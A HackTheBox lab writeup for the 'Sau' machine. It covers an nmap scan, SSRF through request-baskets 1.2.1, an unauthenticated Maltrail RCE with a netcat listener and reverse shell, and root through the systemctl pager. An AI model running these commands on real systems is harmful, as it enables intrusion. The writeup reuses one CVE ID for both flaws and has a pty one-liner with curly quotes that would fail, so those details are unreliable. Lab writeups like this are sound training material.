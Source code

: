 ```yaml
---
layout: post
title: "Sau writeup"
tags: ["Writeups", "HackTheBox", "CTF", "Request-Baskets-1.2.1", "CVE-2023-27163", "SSRF", "Maltrail-0.53", "CVE-2023-27163", "RCE", "Spawn-Shell-Systemctl-Pager"]
author: 0xfederico
meta: "This box starts with a site that hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163 (SSRF). After exploiting the vulnerability I access hidden resources on other ports and find Maltrain at version 0.53 which is vulnerable to CVE-2023-27163 (RCE). I can exploit this vulnerability and become the user. To become root just look at what you can do with sudo and take advantage of systemctl's default pager"
---
```


# INDEX
- [Enumeration](#enumeration)
- [Privesc puma](#privesc-puma)

<br><br>

![Sau box HTB](/assets/images/machines/Sau/Sau.png)

## Enumeration

- `nmap -A -p- -T4 10.10.11.224`
    ```
    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
    |   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
    |_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
    80/tcp    filtered http
    8338/tcp  filtered unknown
    55555/tcp open     unknown
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     X-Content-Type-Options: nosniff
    |     Date: Sun, 30 Jul 2023 20:04:04 GMT
    |     Content-Length: 75
    |     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
    |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Allow: GET, OPTIONS
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port55555-TCP:V=7.93%I=7%D=7/30%Time=64C6C21A%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
    SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
    SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
    SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
    SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
    SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
    SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
    SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
    SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
    SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
    SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
    SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
    SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
    SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
    SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
    SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
    SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
    SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
    SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
    SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
    SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
    SF::\x20nosniff\r\nDate:\x20Sun,\x2030\x20Jul\x202023\x2020:04:04\x20GMT\r
    SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
    SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
    SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
    SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
    SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
    SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
    SF:se\r\n\r\n400\x20Bad\x20Request");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- by opening the site [http://10.10.11.224:55555/web](http://10.10.11.224:55555/web) I see that it hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163. The exploit for this SSRF is [https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

    I use the exploit to access local resources listed by nmap through the proxy offered by `request-baskets`:

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:8338"`

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:80"`

    _NOTE: for the exploit to actually work you need to visit/query the URL that `request-baskets` returns (ex: http://10.10.11.224:55555/sflzwb)_

- by opening the URL from the browser in both cases `Maltrail` version 0.53 is hosted, in the first case it seems not to work due to the broken CSS while in the second case you see the login screen. This specific version is vulnerable to CVE-2023-27163. The exploit for this Unauthenticated RCE is: https://github.com/spookier/Maltrail-v0.53-Exploit

    - I listen with netcat on port 4444: `nc -lnvp 4444`

    - `python3 exploit.py $(ifconfig tun0 | grep inet | head -n 1 | awk '{ print $2 }') 4444 http://10.10.11.224:55555/sflzwb/login`
        
    bingo! I got reverse shell as user

<br><br>

## Privesc puma

- I get a better shell with:
    ```bash
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```

- `sudo -l`
    ```
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    ```

    I can become root very simply via: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager
    
    another reference: https://gtfobins.github.io/gtfobins/systemctl/

    ```
    !sh
    ```
    
    so if I can run `systemctl status foo` as root I can spawn another shell in it as root!

    _NOTE: It's exactly the same for `vim`: https://gtfobins.github.io/gtfobins/vim/_